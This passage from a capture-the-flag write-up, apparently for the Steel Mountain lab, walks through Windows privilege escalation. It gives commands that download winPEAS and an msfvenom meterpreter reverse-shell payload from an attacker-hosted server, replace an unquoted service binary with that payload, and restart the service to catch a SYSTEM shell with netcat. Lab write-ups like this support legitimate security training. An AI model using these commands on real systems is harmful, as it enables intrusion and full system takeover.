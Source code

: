 Yeah! We got the shell.

Now, we need to escalate our privileges. We know the technique.

For this purpose, we need winpeas. It is used for enumeration at windows machine. You can download it from the following link:
[winPEAS](https://github.com/peass-ng/PEASS-ng/releases/winPEASx64.exe)

Now, copy the winPEAS binary to target machine using following command:
```powershell
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/winPEASx64.exe' -OutFile $env:USERPROFILE\\Desktop\\winpeas.exe"
```
Run it:
```
.\winpeas.exe
```
![Alt text](../Screenshots/Steel_Mountain/Service_Enumeration.png)

In the above picture, you can see that **No quotes and Space detected**. It is also giving us the path of binary running by that process which is **C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe**. From this screenshot note service name as well **AdvancedSystemCareService9**.

#### Technique
Our technique would be the same as we done previously. Replace that binary with our malicious payload with the same name as **ASCService.exe**. We can copy the payload from attacker's machine to target machine.

First we need to create it using msfvenom. Use command:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attackers_port -f exe -o ASCService.exe
```
In this command, attackers_port is the port where netcat server is at listening mode for incoming connections. Now, we need to make sure a web server (python server) is running:
```
python -m http.server 8000
```
Now, use the following command to copy this payload to target server:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/ASCService.exe' -OutFile 'C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe'"
```
If the above command of copy is failed, then stop the service and then run the command again.
Command to stop the service:
```
net stop AdvancedSystemCareService9
```
After successfully transfer of payload, run the command to start the service but make sure netcat listener is running on attacker's machine. Command to run netcat listener:
```bash
nc -lvnp 4443
```
In the above command, make sure 4443 is the same port as you gave LPORT during payload creation through msfvenom.
Now, start the service:
```
net start AdvancedSystemCareService9
```
Boom! Got the root shell.
